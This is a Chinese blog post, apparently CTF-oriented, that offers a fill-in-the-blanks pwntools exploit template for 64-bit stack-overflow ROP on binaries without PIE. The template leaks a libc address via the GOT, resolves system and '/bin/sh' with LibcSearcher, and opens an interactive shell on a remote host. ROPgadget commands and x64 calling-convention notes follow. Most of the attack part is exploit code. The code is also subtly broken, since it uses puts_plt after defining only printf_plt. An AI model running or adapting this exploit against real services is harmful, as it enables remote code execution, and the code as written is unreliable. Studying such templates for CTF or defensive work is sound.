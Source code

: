 ```yaml
---
title: "64位栈溢出rop模板(无PIE)"
date: 2021-07-12T17:35:19+08:00
draft: false
---
```


# 		64位栈溢出rop模板（无PIE）

## exp模板

```python
#!usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
#p = process("./")
p = remote("",)
elf = ELF("./")

read_got = elf.got['read']
printf_plt = elf.plt['printf']
main_addr = elf.sym['main']
pop_rdi = 
#pop_rsi = 
#s_addr = 
#************泄露got*********
payload = b'a'*() + p64(pop_rdi) + p64(read_got)
payload+= p64(puts_plt) + p64(main_addr) #puts-read
#payload = b'a'*(0x20+8) + p64(pop_rdi) + p64(s_addr) + p64(pop_rsi) + p64(read_got)
#payload+= p64(0) + p64(printf_plt) + p64(main_addr) --printf-read
p.sendline( payload)
p.recvuntil('')
read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.info("read_addr => %#x", read_addr)
#*****************************
#***********搜索libc，寻址*******
libc = LibcSearcher("read",read_addr)
offset = read_addr - libc.dump("read")
sys_addr = offset + libc.dump("system")
bin_sh_addr = offset + libc.dump("str_bin_sh")
#***************************
#************get shell************
payload1 = b'a'*() + p64(pop_rdi) + p64(bin_sh_addr) 
payload1+= p64(sys_addr) 

p.sendline(payload1)

p.interactive()

```

## ROPgadget

ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
查找可存储寄存器的代码

 ROPgadget --binary rop --string "/bin/sh"
查找字符串

ROPgadget --binary rop  --only 'int'
查找有int 0x80的地址

## 64位传参

对于x64体系结构，如果函数参数不大于6个时，使用寄存器传参，对于函数参数大于6个的函数，前六个参数使用寄存器传递，后面的使用栈传递。参数传递的规律是固定的，即前6个参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，后面的依次从 “右向左” 放入栈中。